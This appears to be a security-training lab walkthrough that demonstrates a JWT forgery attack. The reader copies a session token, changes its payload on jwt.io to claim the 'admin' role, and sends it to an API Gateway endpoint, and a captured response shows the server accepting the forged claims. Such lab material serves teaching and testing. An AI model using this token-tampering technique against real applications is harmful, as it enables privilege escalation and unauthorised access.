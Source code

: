 # **`None` Signed Token**


### *  *

-------

#### Step 1:

* Access the [XML-Uploader](http://sls-training-ui.s3-website-us-east-1.amazonaws.com/) Application on the browser.

```commandline
http://sls-training-ui.s3-website-us-east-1.amazonaws.com/
```

* Register and Login to the Application

### *Note: The details provided CAN be fake and we highly recommend it!*


-------

#### Step 2:

* Once logged in, copy the value of `token` that can be found in `Local Storage` under the `Storage` section in `developer tools`

* Paste the token on [jwt.io](https://jwt.io/) and tamper the value in `Payload` section

```commandline
{
"username": "admin",
"role": "admin",
"email": "admin@widget.co"
}
```

* Using the tampered token, try to access the application using `http` on the provisioned server

```commandline
http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/none Authorization:<token>
```

### *It should return with a response similar to the one below:*

```commandline
root@we45-VirtualBox:/home/we45# http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/none Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiZW1haWwiOiJhZG1pbkB3aWRnZXQuY28ifQ.PSIL13J1t8Rrfd33fxgO2X3EaDaFQcsa0S3dAi07GLU
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Content-Type,Authorization,X-Amz-Date,X-Api-Key,X-Amz-Security-Token
Access-Control-Allow-Methods: GET,OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 0
Connection: keep-alive
Content-Length: 73
Content-Type: application/json
Date: Tue, 02 Apr 2019 16:32:05 GMT
Via: 1.1 5bc1c4711561ec9e65e05f2ef18f000a.cloudfront.net (CloudFront)
X-Amz-Cf-Id: yLaZex5YV7JTNFJoZrvlauQwCftBBi3Gpp2MP7rIAoGFd0MCIiBJ5g==
X-Amzn-Trace-Id: Root=1-5baa6305-3c51c12dc7373ad2db05ab16;Sampled=1
X-Cache: Miss from cloudfront
x-amz-apigw-id: NyRo5FXGIAMFpfg=
x-amzn-RequestId: 8a1c7c11-c0e0-11e8-9e6d-b3dfa2e0c648

{
    "decoded": {
        "email": "admin@widget.co", 
        "role": "admin", 
        "username": "admin"
    }
}
```

---------

### Reading Material/References:
